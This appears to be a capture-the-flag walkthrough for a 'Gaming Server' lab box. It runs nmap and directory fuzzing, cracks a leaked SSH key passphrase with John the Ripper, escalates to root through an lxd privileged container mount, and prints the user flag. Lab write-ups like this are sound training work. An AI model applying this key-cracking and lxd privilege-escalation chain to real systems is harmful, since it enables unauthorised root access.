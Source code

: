 * Running Nmap
```
nmap -p- --min-rate=1000 10.10.165.228
```

![](attachments/nmap_first_scan.png)

-> all ports are filtered
-> for more detailed NMAP scan:

```
nmap -sC -sV 10.10.165.228 -p22,80 -o nmap
```

![](attachments/nmap2.png)

-> fuzzing directories through FFUF 

```
ffuf -u http://10.10.165.228/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt
```


![](attachments/Gaming%20Server%20CTF%20ffuf.png)

-> searching directories through gobuster

```
gobuster dir -u http://10.10.165.228 -u /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![](attachments/Gaming%20Server%20CTF%20gobuster.png)


* looking at the side's page source we find the username john :
* as shown by the gobuster moving to the directory /secret give the ssh private key however login is not successful since it contains passphrase
* trying to bruteforce the ssh private key
* i googled a bit and found this tutorial on how to [crack ssh private key](https://null-byte.wonderhowto.com/how-to/crack-ssh-private-key-passwords-with-john-ripper-0302810/)
 * first i downloaded the ssh2john and converted the private key to hash



````
wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py
````

````
ssh2john rsaprivkey >rsaprivkey.hash
````


````
john --wordlist=/usr/share/wordlists/rockyou.txt rsaprivkey.hash
````


gives me the password: **letmein**

now sshing to the shell

```
ssh -i priv_key john@10.10.165.228
```

passphrase:letmein

cat user.txt returns **a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e**

running id shows user running lxd which lets escalate our privilege
I don't know much about lxd  so I took help of google and got this awesome 
page [lxd_privesc](https://vk9-sec.com/lxd-privilege-escalation/#:~:text=lxd%20%E2%80%93%20privilege%20escalation%201%201.%20In%20this,execute%20bash%20within%20the%20instance%20...%20More%20items)

the sequence of commands that i ran with the help of website are:


````
lxd init
````

````
lsb_release -a
````

````
lxc init ubuntu:18.04 test -c security.privileged=true
````

````
lxc config device add test whatever disk source=/ path=/mnt/root recursive=true
````

````
lxc start test
````

````
lxc info test
````

````
lxc exec test bash
````

````
cd /mnt/root
````

which gives me rootflag.txt

